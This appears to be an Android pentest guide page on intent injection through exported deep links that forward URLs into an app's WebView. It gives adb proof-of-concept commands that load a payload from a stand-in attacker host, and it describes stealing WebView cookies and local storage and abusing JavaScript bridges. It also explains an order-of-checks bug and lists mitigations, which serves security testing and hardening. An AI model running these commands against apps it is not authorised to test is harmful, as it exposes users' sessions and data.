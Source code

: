 # Intent Injection

Intent injection abuses components that accept attacker-controlled Intents or data that is later converted into Intents. Two very common patterns during Android app pentests are:

- Passing crafted extras to exported Activities/Services/BroadcastReceivers that are later forwarded to privileged, non-exported components.
- Triggering exported VIEW/BROWSABLE deep links that forward attacker-controlled URLs into internal WebViews or other sensitive sinks.

## Deep links → WebView sink (URL parameter injection)

If an app exposes a custom scheme deep link such as:

```text
myscheme://com.example.app/web?url=<attacker_url>
```

and the receiving Activity forwards the `url` query parameter into a WebView, you can force the app to render arbitrary remote content in its own WebView context.

PoC via adb:

```bash
# Implicit VIEW intent
adb shell am start -a android.intent.action.VIEW \
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"

# Or explicitly target an Activity
adb shell am start -n com.example/.MainActivity -a android.intent.action.VIEW \
  -d "myscheme://com.example.app/web?url=https://attacker.tld/payload.html"
```

Impact
- HTML/JS executes inside the app’s WebView profile.
- If JavaScript is enabled (by default or due to misordered checks), you can enumerate/use any exposed `@JavascriptInterface` objects, steal WebView cookies/local storage, and pivot.

See also:

[[webview-attacks.md]]

## Order-of-checks bug enabling JavaScript

A recurring bug is enabling JavaScript (or other permissive WebView settings) before the final URL allowlist/verification finishes. If early helpers accept your deep link and the WebView is configured first, your final load happens with JavaScript already enabled even if later checks are flawed or too late.

What to look for in decompiled code:
- Multiple helpers that parse/split/rebuild the URL differently (inconsistent normalization).
- Calls to `getSettings().setJavaScriptEnabled(true)` before the last host/path allowlist check.
- A pipeline like: parse → partial validate → configure WebView → final verify → loadUrl.

Mitigations
- Canonicalize once and validate strictly; fail closed.
- Only enable JavaScript after all checks pass and just before loading trusted content.
- Avoid exposing bridges to untrusted origins.
